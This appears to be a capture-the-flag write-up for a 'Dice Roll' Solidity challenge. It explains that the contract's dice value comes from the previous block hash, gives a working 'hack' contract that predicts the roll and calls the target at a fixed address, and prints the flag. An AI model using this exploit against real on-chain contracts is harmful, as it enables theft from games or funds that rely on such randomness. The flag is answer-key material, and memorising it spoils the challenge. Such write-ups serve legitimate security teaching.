




# Dice Roll / 擲骰仔

## Approach

It says

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DiceRoll {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 ram = 2023;

  constructor() {
    consecutiveWins = 0;
  }

  function roll(uint256 _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 diceRoll = blockValue / ram % 6;

    if (diceRoll == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Pay attention to this, this is not a random number, it is a block number.

```solidity
uint256(blockhash(block.number - 1));
```

Moreover, you can obtain it very easily.



But I found that this number changed quickly, so I wrote an automated program.

```solidity
pragma solidity ^0.8.0;

contract DiceRoll {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 ram = 2023;

    constructor() {
        consecutiveWins = 0;
    }

    function roll(uint256 _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 diceRoll = (blockValue / ram) % 6;

        if (diceRoll == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hack {
    uint256 lastHash;
    uint256 ram = 2023;

    DiceRoll c = DiceRoll(0xDdDeE156a4B433d8EbFF951c28005c223A97947B);

    function calc() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 diceRoll = (blockValue / ram) % 6;
        
        if (c.roll(diceRoll) == true) {
            return true;
        } else {
            return false;
        }
    }
}
```

Manually click it to run



It can be found that coherentWins has been added






## Flag

`PUCTF24{n0_r3n4omn3ss_1n_bl0ckch41n_vuLptYG7wexbBQ8ZvtYhGU2MdW4uT7po}`